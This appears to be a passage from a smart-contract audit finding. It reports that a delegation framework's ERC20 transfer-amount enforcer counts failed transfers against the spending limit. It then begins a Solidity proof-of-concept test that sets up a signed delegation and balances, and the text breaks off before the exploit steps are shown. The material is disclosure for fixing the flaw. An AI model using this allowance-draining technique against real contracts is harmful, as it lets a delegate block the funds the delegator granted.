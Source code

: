 This means a malicious delegate could repeatedly attempt transfers that are designed to fail, draining the allowance without actually transferring any tokens.

**Impact:** This vulnerability allows an attacker to potentially exhaust a delegator's entire token transfer allowance without actually transferring any tokens

**Proof of Concept:**
```solidity
function test_transferFailsButSpentLimitIncreases() public {
        // Create a delegation from Alice to Bob with spending limits
        Caveat[] memory caveats = new Caveat[](3);

        // Allowed Targets Enforcer - allow only the token
        caveats[0] = Caveat({ enforcer: address(allowedTargetsEnforcer), terms: abi.encodePacked(address(mockToken)), args: hex"" });

        // Allowed Methods Enforcer - allow only transfer
        caveats[1] =
            Caveat({ enforcer: address(allowedMethodsEnforcer), terms: abi.encodePacked(IERC20.transfer.selector), args: hex"" });

        // ERC20 Transfer Amount Enforcer - limit to TRANSFER_LIMIT tokens
        caveats[2] = Caveat({
            enforcer: address(transferAmountEnforcer),
            terms: abi.encodePacked(address(mockToken), uint256(TRANSFER_LIMIT)),
            args: hex""
        });

        Delegation memory delegation = Delegation({
            delegate: address(users.bob.deleGator),
            delegator: address(users.alice.deleGator),
            authority: ROOT_AUTHORITY,
            caveats: caveats,
            salt: 0,
            signature: hex""
        });

        // Sign the delegation
        delegation = signDelegation(users.alice, delegation);

        // First, verify the initial spent amount is 0
        bytes32 delegationHash = EncoderLib._getDelegationHash(delegation);
        uint256 initialSpent = transferAmountEnforcer.spentMap(address(delegationManager), delegationHash);
        assertEq(initialSpent, 0, "Initial spent should be 0");

        // Initial balances
        uint256 aliceInitialBalance = mockToken.balanceOf(address(users.alice.deleGator));
        uint256 bobInitialBalance = mockToken.balanceOf(address(users.bob.addr));
        console.log("Alice initial balance:", aliceInitialBalance / 1e18);
        console.log("Bob initial balance:", bobInitialBalance / 1e18);

        // Amount to transfer
        uint256 amountToTransfer = 500 ether;

        // Create the mode for try execution
        ModeCode tryExecuteMode = ModeLib.encode(CALLTYPE_SINGLE, EXECTYPE_TRY, MODE_DEFAULT, ModePayload.wrap(bytes22(0x00)));

        // First test successful transfer
        {
            // Make sure token transfers will succeed
            mockToken.setHaltTransfer(false);

            // Prepare transfer execution
```